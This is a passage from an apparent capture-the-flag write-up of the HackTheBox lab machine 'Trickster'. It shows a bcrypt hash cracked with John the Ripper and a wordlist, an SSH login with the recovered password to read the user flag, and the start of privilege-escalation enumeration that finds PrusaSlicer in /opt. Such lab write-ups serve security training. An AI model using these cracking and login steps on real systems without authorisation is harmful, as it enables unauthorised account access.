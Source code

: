 ```bash
john hashes --wordlist=/opt/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 16 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
alwaysandforever (?)
1g 0:00:00:03 DONE (2024-09-26 22:50) 0.2840g/s 10523p/s 10523c/s 10523C/s bandit2..alkaline
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

James hash cracked so we can ssh in for user.

```bash
ssh james@trickster.htb

The authenticity of host 'trickster.htb (10.10.11.34)' can't be established.
ECDSA key fingerprint is SHA256:KeXq0kjFB0f/ks6Zwb3+8hYoRPyXYWbWzHinBmAn5j0.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'trickster.htb,10.10.11.34' (ECDSA) to the list of known hosts.
james@trickster.htb's password: 
james@trickster:~$ ls
user.txt
james@trickster:~$ cat user.txt
3e8625fa2966--------------------
```

# Root

## docker enum

Time to look around for anything out of the ordinary.

```bash
james@trickster:~$ ls /opt
containerd  google  PrusaSlicer
james@trickster:~$ ls /opt/PrusaSlicer/
prusaslicer  TRICKSTER.3mf
james@trickster:~$ file /opt/PrusaSlicer/TRICKSTER.3mf 
/opt/PrusaSlicer/TRICKSTER.3mf: Zip archive data, at least v2.0 to extract, compression method=deflate
james@trickster:~$ ls -al /opt/PrusaSlicer/
total 82196
drwxr-xr-x 2 root root     4096 Sep 13 12:24 .
drwxr-xr-x 5 root root     4096 Sep 13 12:24 ..
-rwxr-xr-x 1 root root 84018368 Sep  6  2023 prusaslicer
-rw-r--r-- 1 root root   138526 May 23 22:08 TRICKSTER.3mf
```

3d printer software, used for converting 3d models into G-code instructions for FFF printers or PGN layers for mSLA 3d printers ([read about here](https://github.com/prusa3d/PrusaSlicer)). There are far more buffer overflow than I was expecting to see but I opted to reserve this till I fully enumerate.
